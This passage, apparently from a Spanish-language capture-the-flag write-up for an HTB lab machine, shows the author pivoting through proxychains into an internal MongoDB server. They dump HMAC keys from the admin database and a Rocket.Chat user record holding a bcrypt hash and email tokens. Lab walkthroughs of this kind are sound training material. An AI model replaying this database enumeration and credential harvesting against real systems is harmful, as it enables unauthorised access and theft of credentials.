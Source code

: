 Me conecto desde mi equipo pasando por ```proxychains```

```null
proxychains mongo 172.17.0.2
```

Una base de datos corresponde a la del administrador

```null
rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
```

```null
rs0:PRIMARY> use admin
switched to db admin
```

Pero no hay nada que me sirva

```null
rs0:PRIMARY> db.system.keys.find()
{ "_id" : NumberLong("6994889321446637571"), "purpose" : "HMAC", "key" : BinData(0,"be8+vxMbbQGXhSIC9JCM8PJ5AW4="), "expiresAt" : Timestamp(1636400583, 0) }
{ "_id" : NumberLong("6994889321446637572"), "purpose" : "HMAC", "key" : BinData(0,"UgV2A8wC1s8DKqLR3Fkq0/iImwY="), "expiresAt" : Timestamp(1644176583, 0) }
{ "_id" : NumberLong("7064639126477209602"), "purpose" : "HMAC", "key" : BinData(0,"jYn6UX96rygTtoGqDmO8rioyOMw="), "expiresAt" : Timestamp(1652640475, 0) }
{ "_id" : NumberLong("7064639126477209603"), "purpose" : "HMAC", "key" : BinData(0,"7eIYSysppesFzKU625JGtz3DyQ8="), "expiresAt" : Timestamp(1660416475, 0) }
{ "_id" : NumberLong("7202614461234937858"), "purpose" : "HMAC", "key" : BinData(0,"DCeAPfmRGfczhb0Biog7O9c84EI="), "expiresAt" : Timestamp(1684765361, 0) }
{ "_id" : NumberLong("7202614461234937859"), "purpose" : "HMAC", "key" : BinData(0,"BX7JTnSpVfXBIaCvb+Smwv42P80="), "expiresAt" : Timestamp(1692541361, 0) }
rs0:PRIMARY> db.system.version.find()
{ "_id" : "featureCompatibilityVersion", "version" : "4.0" }
```

Me cambio a ```meteor```. Dentro hay una tabla con usuarios

```null
rs0:PRIMARY> use meteor
```

```null
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y" }, "email" : { "verificationTokens" : [ { "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2023-02-21T14:33:17.630Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
```
